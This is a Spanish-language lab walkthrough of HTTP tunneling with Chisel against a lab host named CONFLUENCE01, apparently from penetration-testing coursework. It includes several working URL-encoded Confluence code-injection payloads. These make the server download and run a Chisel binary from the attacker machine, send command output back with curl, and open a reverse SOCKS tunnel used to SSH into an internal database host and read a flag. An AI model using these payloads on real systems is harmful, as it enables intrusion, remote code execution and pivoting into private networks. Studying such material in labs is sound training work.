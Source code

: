# Walk: Tunneling Through Deep Packet Inspection - HTTP Tunneling with Chisel - VM Group 1 

## Fecha: 30/03/2025
## Host: CONFLUENCE01
## IP: {IP}
## Objetivo
Start VM Group 1. Follow the steps in this section, and set up Chisel as a reverse SOCKS proxy. SSH into PGDATABASE01 and retrieve the flag from /tmp/chisel_flag.
## Herramientas
1. tool - 1
2. tool - 2
## Procedimiento y comandos
#### Paso 1: Configurar Servidor Chisel en kali
>Antes de iniciar el servidor, debemos copiar el binario del cliente Chisel a CONFLUENCE01. El servidor y el cliente Chisel se ejecutan desde el mismo binario; simplemente se inicializan con "server" o "client" como primer argumento
1. Levantamos un servidor, puede ser apache o python
- Alternativa python asuimendo que estemos en un directorio de trabajo
```
sudo cp $(which chisel) .
```
- Aternativa Apache
```
sudo cp $(which chisel) /var/www/html
```

#### Paso 2: Configurar Cliente Chisel en CONFLUENCE01
1. Creamos comando wget en CONFLUENCE01
```
wget {Kail_IP}/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
2. Codificamos el comando:
```
curl http://CONFLUENCE01_IP:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20{KALI_IP}/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

#### Paso 3: Iniciamos el servidor chisel desde kali
1. Ejecutamos servidor
```
chisel server --port 8080 --reverse
```
2. Registramos trafico con tcpdump
```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```
#### Paso 4: Iniciamos el cliente chisel 
1. Creamos el comando que inyecta la inicializacion del cliente
```
/tmp/chisel client {Kali_Ip}:8080 R:socks > /dev/null 2>&1 &
```
2. Codificamos el comando:
```
curl http://{CONFLUENCE01:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{kali_ip}:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
> No ocurre nada. No vemos tráfico en nuestra sesión Tcpdump y la salida del servidor Chisel no muestra actividad

## Troubleshooting
- Ejecución del cliente fallida
#### Solución
>Necesitamos encontrar una manera de leer la salida del comando, lo que podría indicarnos el problema. Así podremos resolverlo.

----------------------

1. Creamos el comando que nos diga la salida:

```
/tmp/chisel client {kali_ip]:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://{Confluence_ip}:8080/
```
2. Codificamos el comando:
```
curl http://{CONFLUENCE01_IP}:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{KALI_IP}:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://{KALI_IP}:8080/%27%29.start%28%29%22%29%7D/
```
- Luego de ejecutar el comando la salida de tcpdump incluye la siguiente información:
```
/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
```
Chisel intenta usar las versiones 2.32 y 2.34 de glibc, que el servidor CONFLUENCE01 no tiene. Hemos encontrado un error al intentar ejecutar una carga útil en un sistema de destino. Por lo tanto, debemos encontrar una carga útil alternativa que se ejecute.

```
┌──(root㉿kali)-[/home/kali/]
└─# chisel -h                                                                                                       

  Usage: chisel [command] [--help]

  Version: 1.10.1-0kali1 (go1.23.2)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```
La versión de Chisel que viene con esta versión de Kali es la 1.10.1. Sin embargo, hay otro detalle importante: se ha compilado con la versión 1.23.2 de Go.

El error aparece cuando los binarios compilados con las versiones 1.20 y posteriores de Go se ejecutan en sistemas operativos que no tienen una versión compatible de **glibc**

>Podemos probar el binario Chisel 1.8.1 compilado con Go 1.19 para Linux en procesadores AMD64. Está disponible en el Github principal de Chisel

1. Descargamos el binario:
```
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

gunzip chisel_1.8.1_linux_amd64.gz

```
2. Sobre escribimos en Confluence el binario:
```
curl http://{CONFLUENCE01_IP}:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20{KALI_IP}/chisel_1.8.1_linux_amd64%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```
3. Iniciamoes el cliente:
```
curl http://CONFLUENCE01:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20{KALI_IP}:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
>Tanto en el servidor chisel kali como en tcpdump deberiamos poder ver el trafico correctamente.

4. Comprobamos el tunel:
```
ss -ntplu

Netid     State      Recv-Q     Send-Q           Local Address:Port            Peer Address:Port     Process
udp       UNCONN     0          0                      0.0.0.0:34877                0.0.0.0:*
tcp       LISTEN     0          4096                 127.0.0.1:1080                 0.0.0.0:*         users:(("chisel",pid=501221,fd=8))
tcp       LISTEN     0          4096                         *:8080                       *:*         users:(("chisel",pid=501221,fd=6))
tcp       LISTEN     0          511                          *:80                         *:*

```

#### Paso 5: Configuramos un reverse shell a traves del tunel

Ejecutemos SSH a través de un proxy SOCKS. SSH no ofrece una opción genérica de línea de comandos para el proxy SOCKS. En su lugar, ofrece la opción de configuración **ProxyCommand**. Podemos escribirla en un archivo de configuración o pasarla como parte de la línea de comandos con **-o**

1. Ejecutamos ssh con el parametroy ProxyCommand:
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@{HOST_IP}
```
#### Paso 6: Obtenemos el flag:

```
database_admin@pgdatabase01:/$ cat /tmp/chisel_flag
OS{a796***************************a635b2}
```
